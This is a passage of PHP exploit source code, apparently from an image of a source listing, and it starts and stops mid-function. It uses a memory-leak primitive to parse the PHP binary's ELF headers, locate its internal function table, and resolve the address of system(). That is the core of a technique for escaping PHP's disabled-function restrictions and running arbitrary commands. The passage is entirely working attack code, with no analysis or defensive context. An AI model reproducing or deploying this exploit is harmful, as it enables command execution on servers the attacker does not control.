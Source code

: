 ```php
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
```